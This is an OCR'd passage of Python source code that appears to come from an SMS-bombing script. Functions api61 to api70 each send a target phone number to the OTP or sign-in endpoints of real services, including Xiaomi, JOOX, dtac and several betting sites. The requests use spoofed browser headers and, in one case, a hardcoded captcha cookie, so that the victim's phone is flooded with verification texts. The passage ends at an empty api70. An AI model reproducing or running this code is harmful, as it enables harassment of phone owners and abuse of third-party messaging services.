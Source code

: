     def api61(phone):

        post("https://globalapi.pointspot.co/papi/oauth2/signinWithPhone",

             data={"phoneNumber": f"+66{phone[1:]}"})

    def api62(phone):

        post(

            f"https://hdmall.co.th/phone_verifications?express_sign_in=1&mobile={phone}")

    def api63(phone):

        post("https://asha168vip.com/_ajax_/request-otp",

             data={"request_otp[phoneNumber]": phone, "request_otp[termAndCondition]": "1", "request_otp[_token]": "1642443743"})

    def api64(phone):

        post("https://account.xiaomi.com/pass/sendPhoneRegTicket", data=f"region=US&phone=%2B66{phone[1:]}", headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8",

             "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36", "cookie": "captchaToken=mXYXs+xvEHAZdhKnXK1XlopRcisSn05D6xhZU+uL3ghvh1Yf/4rYTExH+2xl+yZv;deviceId=wb_aca09552-fd37-4204-9d7a-20045de5c5bf;uLocale=en"})

    def api65(phone):

        post("https://gamingnation.dtac.co.th/api/otp/generate", data={"template": "register", "phone_no": phone}, headers={

             "User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    def api66(phone):

        post("https://www.aurora.co.th/signin/otp_chk", data=f"mobile={phone}&type_otp=3", headers={

             "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"})

    def api67(phone):

        post(

            f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=66{phone[1:]}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2")

    def api68(phone):

        post("http://716081.com/wap/user/sendPhoneMsg", json={"uri": "/user/sendPhoneMsg", "token": "", "paramData": {

             "phoneVerifyType": 0, "phoneNumber": f"66{phone[1:]}", "siteCode": "intqa"}}).text

    def api69(phone):

        post("https://login.928royal.com/api/APISendOTP.php", data=f"mobileNumber=0{phone}", headers={

             "content-type": "application/x-www-form-urlencoded; charset=UTF-8"})

    def api70(phone):
